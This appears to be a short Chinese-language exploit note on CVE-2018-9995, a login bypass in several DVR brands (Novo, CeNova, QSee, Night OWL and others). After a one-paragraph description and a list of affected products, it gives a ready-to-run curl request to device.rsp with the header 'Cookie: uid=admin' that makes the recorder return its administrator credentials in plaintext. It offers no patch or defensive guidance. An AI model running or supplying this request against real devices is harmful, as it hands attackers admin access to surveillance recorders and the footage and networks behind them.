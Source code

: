 # DVR 登录绕过漏洞 CVE-2018-9995

## 漏洞描述

DVR，全称为Digital Video Recorder(硬盘录像机)，即数字视频录像机。最初由阿根廷研究员发现，通过使用“Cookie： uid = admin”的Cookie标头来访问特定DVR的控制面板，DVR将以明文形式响应设备的管理员凭证。

## 漏洞影响

```
Novo
CeNova
QSee
Pulnix
XVR 5 in 1 (title: "XVR Login")
Securus, - Security. Never Compromise !! -
Night OWL
DVR Login
HVR Login
MDVR Login
```

## 漏洞复现

使用curl命令获得账号密码

```shell
curl "http://xxx.xxx.xxx.xxx/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

![](./images/202202110916977.png)